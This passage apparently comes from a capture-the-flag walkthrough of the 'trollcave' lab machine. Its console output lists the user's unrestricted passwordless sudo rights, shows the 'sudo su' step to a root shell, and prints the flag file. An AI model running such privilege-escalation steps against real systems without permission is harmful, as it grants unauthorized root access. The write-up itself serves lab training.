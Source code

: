 ```console
king@trollcave:~/calc$ sudo -l
sudo -l
Matching Defaults entries for king on trollcave:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User king may run the following commands on trollcave:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

Run the following command and get root access.

```console
king@trollcave:~/calc$ sudo su
sudo su
bash -i
bash: cannot set terminal process group (5362): Inappropriate ioctl for device
bash: no job control in this shell
root@trollcave:/home/king/calc#
```

```console
root@trollcave:~# cat fl* 
cat fl*
et tu, dragon?

c0db34ce8adaa7c07d064cc1697e3d7cb8aec9d5a0c4809d5a0c4809b6be23044d15379c5
```
